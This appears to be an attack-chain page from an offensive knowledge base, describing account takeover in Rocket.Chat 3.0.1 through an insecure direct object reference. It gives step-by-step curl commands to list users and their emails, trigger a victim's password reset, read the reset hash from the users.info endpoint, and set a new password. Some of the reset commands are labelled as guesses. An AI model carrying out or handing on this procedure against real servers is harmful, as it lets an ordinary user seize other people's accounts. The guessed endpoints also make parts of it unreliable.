

# Rocket.Chat IDOR Leading to Account Takeover via Password Reset Hash Exposure

Multi-stage attack chain exploiting an Insecure Direct Object Reference (IDOR) in Rocket.Chat version 3.0.1. An authenticated user can enumerate other users' details, including emails and password reset hashes, via unprotected API endpoints. This allows triggering a password reset, stealing the hash, and completing the takeover for full account compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or API client (e.g., curl)
- Valid LDAP user credentials with 'user' role

### Target Environment

- Rocket.Chat 3.0.1 on Node.js
- Web platform with LDAP authentication
- Accessible API endpoints (/api/v1/users.list, /api/v1/users.info)

### Initial Access Requirements

- Authenticated session as a regular user
- Network access to the Rocket.Chat instance
- No admin privileges required

## Detailed Attack Procedures

### Step 1: Enumerate Users via IDOR
procedure: [[procedures/Enumerate-Users-via-IDOR-in-Rocket-Chat]]

**Objective**: Authenticate and list all users to identify a target, extracting their _id and email.

**Instructions**: Log in with LDAP credentials, then use [[commands/curl-users-list]] to fetch the user list and [[commands/curl-users-info]] to get details for a specific user.

```bash
# Login first (via browser or API)
# Then:
curl -H "X-Auth-Token: YOUR_TOKEN" -H "X-User-Id: YOUR_ID" https://target/api/v1/users.list
```

Extract the target's _id and email from the response.

**Expected Output**: JSON array of users with _id, email, and other details.

**Success Indicators**:
- User list retrieved without errors
- Target's _id and email obtained

### Step 2: Trigger Password Reset Email
procedure: [[procedures/Trigger-Password-Reset-Email]]

**Objective**: Logout and initiate a password reset for the target to generate a reset hash.

**Instructions**: Log out of the session, navigate to the forgot password page, and submit the target's email obtained from Step 1.

```bash
# Manual via browser: Visit https://target/home, click 'Forgot your password?', enter target's email
# Or simulate with curl if form supports:
curl -X POST https://target/api/v1/forgotPassword -d '{"email": "target@example.com"}'
```

A reset email is sent to the target (but you don't need access to it).

**Expected Output**: Success message or email trigger confirmation.

**Success Indicators**:
- Password reset email sent to target
- No authentication required for trigger

### Step 3: Retrieve Password Reset Hash via IDOR
procedure: [[procedures/Retrieve-Password-Reset-Hash-via-IDOR]]

**Objective**: Re-authenticate, re-enumerate users by email, and fetch the target's reset hash using their _id.

**Instructions**: Log back in, use [[commands/curl-users-list]] to find the target's _id by email, then [[commands/curl-users-info]] to get the reset hash.

```bash
curl -H "X-Auth-Token: YOUR_TOKEN" -H "X-User-Id: YOUR_ID" https://target/api/v1/users.list | grep "target@example.com" -A 5
# Extract _id, then:
curl -H "X-Auth-Token: YOUR_TOKEN" -H "X-User-Id: YOUR_ID" "https://target/api/v1/users.info?userId=TARGET_ID"
```

**Expected Output**: JSON with user's reset hash in the response.

**Success Indicators**:
- Reset hash visible in users.info response
- No authorization denial

### Step 4: Complete Account Takeover via Reset
procedure: [[procedures/Complete-Account-Takeover-via-Reset]]

**Objective**: Logout, access the reset page with the stolen hash, set a new password, and log in to the compromised account.

**Instructions**: Log out, visit the reset URL with the hash, submit a new password form.

```bash
# Visit in browser: https://target/reset-password/RESET_HASH
# Then POST new password (inspect form for endpoint):
curl -X POST https://target/api/v1/resetPassword -d '{"token": "RESET_HASH", "newPassword": "NewPass123"}'
```

Login with the new credentials.

**Expected Output**: Password reset success and login access.

**Success Indicators**:
- Access to target's account dashboard
- Full control confirmed

## Attack Chain Summary

### Key Achievements

1. Enumerated sensitive user data via IDOR without authorization checks
2. Abused password reset to generate and steal reset hashes
3. Achieved complete account takeover on Rocket.Chat 3.0.1

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Discovery]] Account Discovery
- [[Account Manipulation]] Account Manipulation

### MITRE ATT&CK Tactics

- [[Discovery]] Discovery
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T12:00:00Z*
